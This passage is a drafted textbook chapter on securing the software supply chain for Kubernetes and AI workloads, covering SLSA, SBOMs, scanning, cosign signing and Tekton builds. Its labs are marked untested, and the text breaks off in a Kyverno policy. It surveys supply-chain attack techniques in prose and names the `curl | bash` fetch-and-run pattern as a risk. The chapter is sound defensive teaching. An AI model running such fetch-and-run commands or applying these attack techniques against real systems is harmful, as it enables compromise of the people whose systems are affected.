


# 5.27 Software supply chain security

| | |
|---|---|
| Level | Advanced |
| Priority tier | 1 |
| Lab venue | Docker/BuildKit, GitHub Actions or GitLab CI (OIDC), registry (Harbor/GHCR/Artifact Registry), `cosign`, `syft`, `grype`/`trivy`, Kyverno or Sigstore policy-controller, `slsa-verifier` |
| Part | Part 5: Kubernetes |
| Status | Drafted, labs **untested** |

## Why this matters for AI infrastructure

Suppose a training image starts on Monday, and by Friday it is quietly sending the training data somewhere else. Nobody changed the training code. A package deep inside the image changed, and nobody checked it. That is the supply chain problem in one picture. Every software artefact is built from other software, and the chain of inputs is long. AI stacks have one of the widest and least-audited supply chains in computing. A single training image can pull in a multi-gigabyte base image from a vendor, thousands of Python packages, and PyTorch and CUDA wheels. Some of those wheels compile custom CUDA extensions at install time. Pretrained models often arrive from hubs as pickles, and datasets may have been scraped from the Internet. Build scripts sometimes run `curl | bash`, GPU drivers and kernel modules run with kernel privileges, and notebooks may `pip install` whatever their users type.

Those gaps have real consequences. A compromised dependency in a training image can exfiltrate proprietary data and model weights, or tamper with the model itself. A poisoned model file can execute code the moment it loads. A malicious package in a CI environment can steal cloud credentials. In each case the damage arrives through software that the team trusted without checking, which is why this chapter spends so much time on checking.

Kubernetes gives you the control points: admission, network policy and runtime isolation. Admission is the gate that every pod must pass before it starts, so it is the natural place to ask whether an image is one you trust. Network policy limits where a compromised workload can talk, and runtime isolation limits what it can touch on the node. You can use each of them to stop a bad image before it runs. This chapter shows how to combine them with controls at build time and at the registry. The goal is a verifiable chain from source to production, and that chain includes the AI-specific parts: models, datasets and the GPU stack.

## Prerequisites and outcomes

This chapter builds on 5.1, 5.16 and 5.21, and it assumes the CI/CD basics in 4.2. Those chapters explain images, configuration and admission, which this one relies on heavily. If an image layer or an admission webhook feels unfamiliar, reread the matching chapter first.

Use the list below as a self-check. Each item names something a platform engineer should be able to do after working through the chapter.

- Describe the supply-chain threat model across source, build, dependencies, artefacts, registry, deploy and runtime. Name the real attack classes, including typosquatting, dependency confusion, compromised maintainers or build systems, poisoned base images, malicious updates, stolen CI credentials, tampered artefacts and unsigned models. Map a control to each one.
- Explain SLSA levels, in-toto attestations and provenance, and generate and verify them.
- Produce and consume SBOMs in SPDX and CycloneDX formats. Scan images and dependencies, and manage vulnerability triage with VEX and exceptions.
- Sign and verify images, SBOMs and attestations with Sigstore and cosign, both keyless (OIDC) and key-based. Publish transparency log entries, and enforce verification at admission in Kubernetes.

The remaining checks cover more ground. For builds and registries, the chapter works through hermetic and ephemeral builds, least-privilege runners, pinned inputs and reproducibility, plus immutability, scanning, replication and access control. For Python and ML, it covers lockfiles with hashes, private indexes, `--require-hashes`, wheel-only installs and pinned CUDA stacks. It also covers safetensors, signed model artefacts, hashes and model scanning. For runtime and response, it covers a read-only rootfs, seccomp, egress control and detection, along with blast-radius analysis through SBOMs, key and CI credential rotation, and image revocation.

## 1. Threat model

Suppose a developer's account pushes one bad commit. Where would it end up? The diagram traces the path from source to runtime, and the dashed arrows mark the attack points. Read it from left to right, the way the code travels, and notice that every box on the path is a place where a bad input can enter. A supply chain is only as strong as its weakest link, so the diagram asks you to inspect each link instead of just the last one.



*Figure 5.27.1. Threat model, as a diagram.*

A1 is a compromised developer account or a malicious commit. A2 is a compromised CI runner, its secrets or a build plugin. A3 is a typosquat, dependency confusion, a hijacked maintainer or a poisoned model. A4 is a tampered artefact or a registry compromise. A5 is an unverified image that gets deployed, or a malicious controller. A6 is a container escape, credential theft or exfiltration. Each attack class enters at a different stage, so a control at one stage does not cover the others.

Real incidents show each class at work. The SolarWinds build compromise broke build system integrity, so the software that shipped was not the software that the team had reviewed. A modified Codecov bash uploader harvested CI secrets, which shows how a small script in a build can reach far beyond its job. The `event-stream` and `ua-parser-js` cases were maintainer takeovers, where an attacker gained control of a popular package from its legitimate owner. Dependency confusion claims internal package names on public indexes, so a build that asks the wrong index for an internal name downloads the attacker's copy instead. The `xz` backdoor came from long-game maintainer social engineering, where trust was built over years before the payload appeared. Leaked CI tokens used to push images, and compromised GitHub Actions or Docker Hub images, belong in the same list.

The AI-specific cases include pickled checkpoints that execute code on `torch.load`, compromised conda or pip mirrors, and notebook environments with ad-hoc installs. Third-party CUDA extension builds and inference servers exposed to the network also belong here. Tampered datasets, which is data poisoning, can alter model behaviour without changing a single line of code. A model can look healthy in every test you run and still have been trained on data that someone chose to corrupt.

Six objectives follow from these cases. Integrity means what runs is exactly what was built from reviewed source. Provenance records who built an artefact and how. Transparency shows what the artefact contains. Least privilege gives builders and deployers only the rights they need. Detectability makes tampering cause a verification failure, so the attack shows itself. Recoverability means you can find and remove affected artefacts quickly.

Map each attack class to one of these objectives before you choose a control. A control that does not serve an objective is a checkbox, and a checkbox does not stop an attacker.

## 2. Frameworks and standards

You will meet these names in tool documentation and audits, so it helps to know what each one covers. They describe different things. Some describe how to build, some describe what to record, and some describe what to sign.

SLSA, the Supply-chain Levels for Software Artifacts, groups build requirements into levels. Build L1 means provenance exists, which is a record of how the artefact was made. Build L2 means a hosted build platform signs the provenance, so the record is not just a file the builder wrote about itself. Build L3 adds isolated builds, non-falsifiable provenance and no exposure of secrets to user steps. Source and dependency tracks are still evolving. Run `slsa-verifier` to check provenance before you deploy. Think of the levels as increasing amounts of proof. Each level makes it harder for someone to forge the story of how an artefact was built.

An in-toto attestation is a signed statement about an artefact, such as its provenance, SBOM, scan results or approval. Attestations travel in DSSE envelopes, which are signed wrappers that keep the statement and the signature together. Each attestation names a predicate type, which says what kind of statement it is. Examples include `https://slsa.dev/provenance/v1`, `https://spdx.dev/Document`, `https://cyclonedx.org/bom` and `https://cosign.sigstore.dev/attestation/vuln/v1`.

Sigstore is a set of signing components. Cosign signs and verifies OCI artefacts and stores the signatures as OCI referrers or tags. Fulcio issues short-lived certificates bound to OIDC identities, which are the identities a CI system proves with its login token. That binding is why this is called keyless signing, because the signer does not keep a long-lived key around to leak. Rekor is a public transparency log, which is an append-only record anyone can check, and the policy-controller enforces these checks at admission. Notary v2, used through `notation`, is the alternative. It works with X.509 certificates and suits enterprise PKI, which is the certificate system many companies already run. The OCI 1.1 referrers API attaches signatures, SBOMs and attestations to images, so they travel with the image they describe.

Several frameworks drive compliance work. NIST SSDF, published as Special Publication 800-218, is one. Others are CISA and NSA guidance, CNCF supply chain best practices, OpenSSF Scorecard and CIS benchmarks. Executive Order 14028 sets SBOM requirements, and the EU Cyber Resilience Act covers SBOMs and vulnerability handling. If your organisation has to pass an audit, the auditor will usually ask which of these you follow, so pick them early.

For AI workloads, OpenSSF model-signing and Sigstore cover model signing. The CycloneDX ML-BOM and the SPDX AI profile extend SBOMs to ML, so a model can carry an inventory of its own parts. NIST AI RMF, along with MLCommons and Hugging Face guidance on safetensors, also applies.

Choose the standards your compliance work requires, and map your tools to them. A standard that nobody maps to a tool is only a document on a shelf.

## 3. Source and build

A build is only as trustworthy as the source and the steps around it. Think of a factory line. The finished product carries the factory's name, so a contaminated ingredient at the start harms the product at the end. This section walks through the controls at each step, starting with the source.

### Source integrity

Protect branches and require reviews, so that no single person can push unreviewed code to the branch that ships. Use CODEOWNERS, covered in 4.1, to name the reviewers for each area of the repository. Sign commits and tags, using gitsign for keyless signing, so that a commit can be traced to an identity you can check. Require MFA or passkeys for maintainers, because a stolen password is the cheapest way into a repository. Turn on secret scanning and push protection, which stops a secret from landing in history in the first place. Dependency update bots should open changes that go through review, and workflow permissions should be restricted to what each workflow needs. Apply branch protection to IaC and Dockerfiles, and require 2-person review for build config. Watch for drift in repository settings with OpenSSF Scorecard and `allstar`. Drift matters because a setting that was tightened last year can quietly loosen without anyone noticing.

### Build integrity

1. Build released artefacts in CI, never on a developer laptop. A laptop has the developer's credentials, local changes and personal tools all mixed together, so nothing built there can be traced cleanly. Use ephemeral, isolated builders, one job per VM or container, destroyed afterward. Destroying the builder means that nothing from one job can leak into the next. Keep long-lived credentials off runners. Federate OIDC to registries and clouds (4.2), and give tokens least privilege, so a token can push only to its target repository. Keep build and deploy credentials separate, so that the account which builds an image cannot also deploy it.

2. Make inputs hermetic and pinned. A hermetic build can see only the inputs you listed, and a pinned input is one that cannot change under you. Pin base images by digest, OS packages by version and snapshot repositories. A digest is a fingerprint of the exact image contents, so it cannot be swapped for a different image the way a tag can. Lock language dependencies with hashes, and check tools by checksum. Vendor or mirror dependencies through an internal proxy, such as Artifactory, Nexus, devpi or a Harbor proxy cache, so builds never reach the live Internet. Where possible, deny network egress during the compile phase. BuildKit `--network=none` does that for steps that run after the dependency fetch, and Bazel or Nix give you hermetic builds.

3. Reproducibility means the same inputs produce the same bits. If you rebuild from the same source and get a different file, you cannot prove that the file you shipped matches the source. Set `SOURCE_DATE_EPOCH`, write sorted tars without timestamps, keep ordering deterministic and pass `--build-arg` pins. Then check the result with independent rebuilds, using reproducible-builds tooling and `diffoscope`. `diffoscope` shows you exactly where two builds differ, which makes the cause easier to find. Reproducibility is not always achievable for Python and CUDA stacks, but the base image and application layers usually can be made reproducible.

4. Choose minimal, trusted bases. A minimal base has fewer packages, which means fewer CVEs to track and fewer tools for an attacker to use. Options include distroless, Chainguard and Wolfi, vendor-curated bases such as NGC, and your own hardened golden bases rebuilt nightly. Avoid arbitrary community images, because nobody is accountable for them. Verify base signatures, track base updates with Renovate, and rebuild the images that depend on them.

5. Build secrets belong only in BuildKit secret mounts (5.1), never baked into an image. A secret baked into a layer stays in the image forever, even if a later layer deletes it. Never run `curl | bash`, because it runs whatever the remote server sends at that moment without any check. Download files with checksum or signature verification instead.

6. Generate provenance during the build. Running `docker buildx build --provenance=mode=max --sbom=true`, or a SLSA generator, produces attestations attached to the image digest. The attestations are the build's own record of its inputs, steps and outputs, and they are most useful when the build system writes them and not the developer.

7. Isolate CI from production. Use separate accounts or projects, and make sure build agents cannot reach production networks. Deploy through GitOps pull (4.26), so CI holds no cluster credentials. In a pull model, the cluster fetches its desired state, so a compromised CI system has nothing to push with.

8. Protect the CI platform itself. Pin third-party actions and plugins by SHA, and review them. A tag such as `v4` can be moved to new code by its owner, but a SHA cannot. Restrict `pull_request_target`, withhold secrets from forks, and protect workflow files with CODEOWNERS. Keep audit logs, harden runners, and use ephemeral self-hosted runners with network egress filtering. Treat the CI system as tier-0, meaning as important as the production systems it feeds.

### The "Golden Base Image Antipattern"

In traditional virtual-machine operations, security teams often mandate one pre-approved corporate OS image for every workload. A hardened CentOS base is a typical example. The idea is sound for machines that stay around for years. Suppose that rule carries over to containers unchanged. Teams must then rebase or repackage vendor images, such as upstream databases, ingress proxies or NVIDIA NGC bases, onto the corporate base. *Production Kubernetes* calls this the Golden Base Images Antipattern, and it causes two problems.

The first problem is broken upstream dependencies and testing. Upstream and vendor images are built and tested against specific libc, runtime and library versions. Rebasing them onto a different corporate OS breaks those assumptions, and teams end up reinventing upstream packaging work. A GPU image that was tested on one base can fail in confusing ways on another, even when every package name looks the same.

The second problem is maintenance sprawl, which also makes the fleet less secure. The internal platform team must rebuild and maintain forked copies of dozens or hundreds of upstream images. Manual rebasing is slow and fragile, so updates happen infrequently. The fleet then runs older, more vulnerable software than it would if it tracked upstream releases. The rule meant to make the fleet safer ends up keeping it behind on patches.

The better alternative is to codify requirements into pipeline scanning and quarantine registries. A small set of curated internal base images works well for your own first-party applications, such as `gcr.io/distroless/base` running as `USER nonroot:nonroot`, or pinned `alpine:3.12` packages like `RUN ["apk", "add", "imagemagick=7.0.10.25-r0"]` in *Production Kubernetes*. Third-party and vendor images should instead pass through the automated quarantine and promotion pipeline in Section 5. That pipeline scans for CVEs, checks non-root user permissions, signs passing images and pushes them to an approved internal registry. The requirement stays the same, but the checking moves from a manual rebase to an automatic gate.

### In-cluster cloud-native build pipelines with Tekton (`Task` and `Pipeline`)

Suppose your builds must run inside a cluster without mounting the host Docker socket. The Docker socket is powerful, because anyone who can talk to it can control the host, so many teams avoid mounting it. Cloud-native CI tools such as Tekton model each build step as a Kubernetes custom resource: `Task`, `Pipeline`, `TaskRun` and `PipelineRun`. A custom resource is an object type that you add to the cluster, and the Tekton controller then runs it. Those steps run in Pods, and rootless builders such as Kaniko or Cloud Native Buildpacks (`pack`) do the image build. Rootless means the builder does not need root on the host to produce an image.

In the examples from *Production Kubernetes*, a reusable `git-clone` `Task` checks out source code into a shared `Workspace`. A `Workspace` is a volume that several tasks can read and write. A `buildpacks-phases` `Task` then runs `/cnb/lifecycle/builder` to produce an OCI image. A `Pipeline` chains the two together, from checkout to registry push:

```yaml
apiVersion: tekton.dev/v1beta1
kind: Task
metadata:
  name: git-clone
spec:
  workspaces:
    - name: output
      description: "The git repo will be cloned onto the volume backing this workspace"
  params:
    - name: url
      description: git url to clone
      type: string
    - name: revision
      description: git revision to checkout (branch, tag, sha, ref…)
      type: string
      default: master
  results:
    - name: commit
      description: The precise commit SHA that was fetched by this Task
  steps:
    - name: clone
      image: "gcr.io/tekton-releases/github.com/tektoncd/pipeline/cmd/git-init:v0.12.1"
      script: |
        CHECKOUT_DIR="$(workspaces.output.path)/$(params.subdirectory)"
        /ko-app/git-init \
          -url "$(params.url)" \
          -revision "$(params.revision)" \
          -path "$CHECKOUT_DIR"
        cd "$CHECKOUT_DIR"
        RESULT_SHA="$(git rev-parse HEAD | tr -d '\n')"
        echo -n "$RESULT_SHA" > $(results.commit.path)
---
apiVersion: tekton.dev/v1beta1
kind: Task
metadata:
  name: buildpacks-phases
spec:
  params:
    - name: BUILDER_IMAGE
      description: "The image on which builds will run (must include lifecycle and compatible buildpacks)."
    - name: PLATFORM_DIR
      description: The name of the platform directory.
      default: empty-dir
    - name: SOURCE_SUBPATH
      description: "A subpath within the `source` input where the source to build is located."
      default: ""
  resources:
    outputs:
      - name: image
        type: image
  workspaces:
    - name: source
  steps:
    - name: build
      image: $(params.BUILDER_IMAGE)
      imagePullPolicy: Always
      command: ["/cnb/lifecycle/builder"]
      args:
        - "-app=$(workspaces.source.path)/$(params.SOURCE_SUBPATH)"
        - "-layers=/layers"
        - "-group=/layers/group.toml"
        - "-plan=/layers/plan.toml"
      volumeMounts:
        - name: layers-dir
          mountPath: /layers
        - name: $(params.PLATFORM_DIR)
          mountPath: /platform
        - name: empty-dir
          mountPath: /tekton/home
---
apiVersion: tekton.dev/v1beta1
kind: Pipeline
metadata:
  name: clone-and-buildpack
spec:
  workspaces:
    - name: shared-workspace
  params:
    - name: git-url
      type: string
    - name: builder-image
      type: string
  tasks:
    - name: fetch-source
      taskRef:
        name: git-clone
      workspaces:
        - name: output
          workspace: shared-workspace
      params:
        - name: url
          value: $(params.git-url)
    - name: build-image
      runAfter: ["fetch-source"]
      taskRef:
        name: buildpacks-phases
      workspaces:
        - name: source
          workspace: shared-workspace
      params:
        - name: BUILDER_IMAGE
          value: $(params.builder-image)
```

The `git-clone` `Task` writes the exact commit SHA into its result. That SHA is the precise version of the source that the build used, so it can be recorded and checked later. The `runAfter` setting makes the build wait for the clone, and the shared workspace carries the source from one task to the next. Read the manifests as a single flow, from fetch to build, and notice that the commit SHA travels with the run. A result that names an exact commit is what makes provenance possible.

### Cloud Native Buildpacks: no Dockerfile needed

Every service with its own Dockerfile is one more file for a developer to write and maintain. Buildpacks skip that step. They read the source code and decide how to build it, so developers never write a Dockerfile. Heroku and Cloud Foundry have used buildpacks for years. Cloud Native Buildpacks, or CNB, brings the idea to containers, packaging the app into an OCI image that runs on Kubernetes.

CNB inspects the source and runs the buildpacks that match it. The Go buildpack runs when Go files are present, and the Maven buildpack runs when a `pom.xml` file is present. You start the process with the `pack` CLI, and detection happens behind the scenes. Each buildpack has a narrow scope, so the images it produces tend to follow best practices. A narrow scope also means fewer packages in each image, which is the same goal as a minimal base.

Platform teams can also write custom buildpacks. A custom buildpack can enforce policy, meet compliance rules and standardize the images that run on the platform. The value grows with the size of the organization, because developers want to build features rather than package containers.

### Who should own image builds

Early on, developers often write their own Dockerfiles. At scale, that approach causes two problems. Developers lose time they should spend on their product, and the images vary widely with little standardization. Many organizations therefore move build work to operations and platform teams. Those teams build pipelines that take a code repository as input and return a container image. The developer's job becomes writing code, and the platform's job becomes making sure every image passes the same checks.

Workshops and hands-on help with Dockerfiles make a reasonable first step. They do not scale well, though, because the ratio of development teams to platform staff is usually high. A workshop reaches a few teams, while a pipeline reaches all of them on every commit.

### Triggering builds from commits

Builds should start when code lands in the central repository. Local builds with Docker are fine for early work. A pipeline tool can either poll the repositories for changes or receive a webhook from version control. A webhook is a message the code host sends the moment something changes, so the build starts without waiting for a poll. The examples use Tekton, a pipeline tool built for Kubernetes. Tekton models each component as a custom resource, and its catalog includes common tasks such as cloning a Git repository.

A pipeline can grow from there, adding tests, linting, static analysis and a signing step. When you do not use buildpacks, tasks can run other build tools such as Kaniko or BuildKit. The signing step belongs at the end of the pipeline, after the tests pass, because a signature should mean that the artefact has already been checked.

### Image tags and metadata

During development, Git hashes make good tags. They are hard to read, but each one traces an image back to its commit. As the pipeline matures, add descriptive version tags such as SemVer. Those tags show at a glance which versions run in each environment. Use immutable tags, which most registries support, so nobody can overwrite an existing tag. A tag that can be moved is a name that can point at different code tomorrow, and that is exactly the kind of ambiguity an attacker uses.

Labels that hold the image owner's contact details and build information help later reporting. Policy tools can read labels too. For example, a policy can allow image access only for certain labels. A label is only a note, though, and anyone who can build the image can write any label they like, so do not rely on labels alone for trust. Trust comes from the signature and the attestation.

### Push-based deploys and their limits

Once builds are automated, the pipeline can deploy too. The simplest approach is a final step that reads the new tag and runs `kubectl set image`, and many tutorials show it. A better approach edits the Deployment's YAML in version control. The pipeline changes the tag with `sed` or a similar tool, commits the change, and then runs `kubectl apply -f` over the updated manifests. Your YAML then stays close to the source of truth for the cluster.

The push model has limits. Promoting releases across environments and clusters needs an inventory of targets, plus credentials for each cluster. Every cluster credential held by CI is one more way in for an attacker who compromises CI. If a pipeline is interrupted, someone must restart or reconcile it. Monitor and alert on deployment pipelines too, so failures do not go unnoticed. Decide who holds cluster credentials before you automate the push, because that decision is much harder to reverse later.

## 4. SBOMs and vulnerability management

### SBOM

A Software Bill of Materials, or SBOM, lists the components inside an artefact. Think of it as the ingredients list on a food package. The list covers packages, versions, licences, hashes, suppliers and relationships. Two common formats are SPDX, an ISO standard, and CycloneDX, which comes from OWASP and supports VEX and ML-BOM. You can generate an SBOM at build time. Syft does it with `syft packages registry/app@sha256:... -o spdx-json`. Other options include BuildKit's `--sbom`, `trivy image --format cyclonedx`, language tools such as `pip-audit` and `cyclonedx-py`, and `docker sbom`.

Attach the SBOM to the image as an attestation with `cosign attest --type spdxjson --predicate sbom.json image@digest`, and store it in the registry as a referrer. Attaching it this way means the SBOM travels with the exact image it describes, so nobody can swap one for the other without the signature failing.

The payoff comes when something breaks. An SBOM lets you answer "which running workloads contain log4j, this torch version or this OpenSSL?" within moments. Without one, the same question means asking every team to search their own images by hand, which takes days. Ingest SBOMs into a database such as Dependency-Track or GUAC, or use Grype with SBOM input. Then cross-reference the results with the digests running in your cluster. You can list those with `kubectl get pods -A -o jsonpath`.

### Scanning

Several image scanners are available. Trivy, Grype, Clair, Snyk, Docker Scout and Anchore all work here, and so do the cloud-native scanners in ECR, Artifact Registry and ACR. They scan OS packages and language ecosystems such as pip, npm, Go modules and Java. Be aware of the limits. Wheels with bundled libraries, such as PyTorch with its CUDA libraries, are hard to attribute, because the scanner sees a file but may not know which package it came from. So are statically linked binaries, vendored code and compiled CUDA extensions. Distro backports can also cause false positives, because a distribution may fix a flaw in an older version without changing the version number the scanner reads.

Scan at several points. At PR time, lint the Dockerfile with `hadolint` and review dependencies. At build time, fail the build on critical or high findings that have fixes available. A finding with no fix available cannot be acted on by the build, so it should go to triage instead. The registry can rescan continuously as new CVEs emerge. In the cluster, Trivy Operator or Kubescape can scan running workloads, and nodes need checks on host packages and the kernel.

Triage needs context. Ask whether the vulnerable code is reachable, how exploitable it is (EPSS and CISA KEV help here), whether the component is loaded and what mitigations exist. EPSS is a score for how likely a flaw is to be exploited, and CISA KEV is a list of flaws that attackers are known to use. Record each decision as a VEX, which stands for Vulnerability Exploitability eXchange, statement. A VEX statement is a signed note that says whether a given product is affected by a given CVE, and why. Use OpenVEX, CSAF or CycloneDX VEX format. Scanners can then suppress findings marked not affected, with the justification attached. Give each exception an owner and a time limit, so that an exception does not quietly become permanent.

Set patch SLAs by severity. An SLA is the time you commit to fixing something. Critical findings may need a fix within hours to days, and high findings within days to weeks. Automated rebuild pipelines keep base images current. Add an image freshness policy with a maximum age, and enforce it through admission or reporting. A fresh image is not automatically safe, but a very old one almost certainly carries flaws that have already been fixed upstream.

Scan configuration and infrastructure code too. Trivy config, Checkov and Kubescape check manifests and Terraform (see 4.2 and 4.23). Secret scanners such as gitleaks and trufflehog check repositories, images and registries, because a leaked key is a vulnerability too, and scanners find those as well.

The GPU stack has its own CVEs. NVIDIA publishes security bulletins for drivers, the Container Toolkit, the GPU Operator, Triton, NeMo and DCGM, and you need to track and patch them. Container Toolkit escape CVEs have occurred, so update promptly and restrict `privileged`. Subscribe to the bulletins, because a driver fix can land without any change to your application code.

### Scanning over time without causing outages

Scanning at pull time is a useful start, but images already in your environment can gain new CVEs. A CVE is published after the image was built, so an image that was clean last month may be flagged today. Schedule rescans, and plan how you will update or replace the affected images. Automatic patching is tempting, yet an updated image can be incompatible and break a running app. Automated updates can also bypass your change process, which makes them hard to audit.

Blocking pulls has a cost too. Suppose a core application's image gets a new CVE and pulls are blocked. Pods scheduled to new nodes then cannot start, so the outage spreads with every new node. That trade-off pits security against availability, so write the decision down. Most teams prefer alerts. A registry can call a webhook when a scan completes, or expose metrics that you can scrape and alert on. Once you know the impact, decide whether and when to patch, then run the patch through your normal pipeline so the change stays transparent and auditable.

Write down whether you block pulls or alert on findings, and run every patch through your normal pipeline.

## 5. Signing and verification

### Cosign basics

Before you sign anything, look at what the commands look like in a real pipeline. The block below shows keyless signing in CI, verification with identity constraints, and a key-based variant for air-gapped or KMS setups. KMS is a cloud key management service that keeps the private key inside the cloud and never shows it to you.

```bash
# Keyless signing in CI (GitHub Actions with id-token: write)
cosign sign --yes registry.example.com/ml/trainer@sha256:abc...            # signs digest using Fulcio cert bound to the workflow identity; entry in Rekor
cosign attest --yes --type slsaprovenance --predicate provenance.json registry.example.com/ml/trainer@sha256:abc...
cosign attest --yes --type spdxjson --predicate sbom.spdx.json registry.example.com/ml/trainer@sha256:abc...
# Verify
cosign verify registry.example.com/ml/trainer@sha256:abc... \
  --certificate-identity-regexp 'https://github.com/acme/.+/.github/workflows/release.yml@refs/tags/v.*' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com
cosign verify-attestation --type slsaprovenance --certificate-identity-regexp ... --certificate-oidc-issuer ... image@digest
cosign tree image@digest                                                  # signatures/attestations attached
# Key-based (air-gapped or KMS)
cosign generate-key-pair --kms gcpkms://projects/p/locations/global/keyRings/r/cryptoKeys/k
cosign sign --key gcpkms://... image@digest ; cosign verify --key gcpkms://.../versions/1 image@digest
```

The first three commands sign the digest and attach provenance and SBOM attestations to it. The verify commands are where the policy lives, because they accept only the identity you name. A signature that anyone can produce proves very little. A signature from one specific workflow, on one specific branch, proves that the workflow produced the image.

Several principles follow from these commands. Sign digests, not tags, because a tag can be moved after the signature is made. Define who is allowed to sign, using the CI workflow path and ref as the identity rather than accepting any signature. For air-gapped environments, run a private Sigstore made of Fulcio, Rekor and TUF, or use key-based signing with KMS. TUF is The Update Framework, a design for distributing trusted metadata securely. Protect signing keys in KMS or an HSM, which is a hardware security module, set certificate-identity policies tightly and record the verification policy as code. Sign all artefacts, including images, OCI Helm charts, SBOMs, attestations, Terraform modules and models.

*Production Kubernetes* explains why early container signing was hard. Its software supply chain chapter describes two major operational pain points in Notary v1, also called Docker Content Trust and built on TUF. Sigstore's cosign and Notary v2's notation solved both.

1. The registry URL coupling problem. Notary v1 bound each signature to a Globally Unique Name, or GUN, that included the registry hostname, such as `registry-a.example.com/team/app`. Whenever an enterprise replicated or cached that same image digest across regional registries, edge pull-through caches or air-gapped mirrors, such as `registry-b.internal/team/app`, Notary v1 signatures broke because the URL changed. Cosign and notation avoid this. They sign the content-addressable image manifest digest (`@sha256:...`) and store the signatures as OCI 1.1 artifacts or referrers inside the registry itself. Signatures and SBOM attestations can then travel across mirrors and regional caches, because the thing being signed is the content, not the address.
2. Push-based versus pull-based deployment, with progressive traffic shifting. After an image passes build, CVE scanning with Clair or Trivy, signing and promotion to the approved registry, *Production Kubernetes* recommends pull-based GitOps controllers such as Flux or Argo CD over push-based CI scripts that run `kubectl apply`. CI then never holds cluster-admin credentials. Pair GitOps with a progressive delivery controller such as Flagger or Argo Rollouts. These shift traffic gradually, using Canary, Blue/Green or A/B Testing, through Ingress, the Gateway API or service mesh weights. They abort and roll back automatically if error rates or latency degrade. A rollout that shifts traffic in small steps gives you a chance to stop a bad release before everyone has it.

### Signing at each stage of the pipeline

A signature is a cryptographic proof. The publisher hashes the image and ties that hash to their identity. Anyone can check the signed hash against the publisher's public key. The useful part is that one image can be signed many times. You might sign after tests pass and again after a release team approves it. Each signature is a separate statement, so each stage can add its own. At deploy time, you require the signatures you specify. That proves the image promoted to production is exactly the image that passed each stage.

Notary is the main project in this area. Docker originally built it on The Update Framework (TUF), a system for distributing software updates securely. Teams have adopted signing slowly, for three reasons:

- Notary has several components, including a server and multiple databases. Signing and verification sit on the deployment's critical path, so Notary needs high availability. If the signing service is down, deployments stop.
- Notary names each image with a GUN that includes the registry URL. Signatures then cannot move to copies in caches or edge registries.
- Notary and TUF use different key pairs, each with its own security needs. Rotating those keys after a breach is hard, because each set has to be replaced without breaking the other.

A second version, Notary v2, was then in development. It aimed to simplify key management and to bundle signatures with the OCI images themselves. Several projects already run admission webhooks that check for signatures before a cluster runs an image.

### Admission-time enforcement in Kubernetes

Enforce verification where workloads are admitted (5.21). Admission is the last checkpoint before a pod is created, so a check there stops a bad image no matter how it was requested. The Kyverno policy below does two things. Its first rule requires a keyless signature and a provenance attestation on images from the ML registry, for Pods in production namespaces. Its second rule allows images only from approved registries, for every Pod.

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata: { name: require-signed-images-and-provenance }
spec:
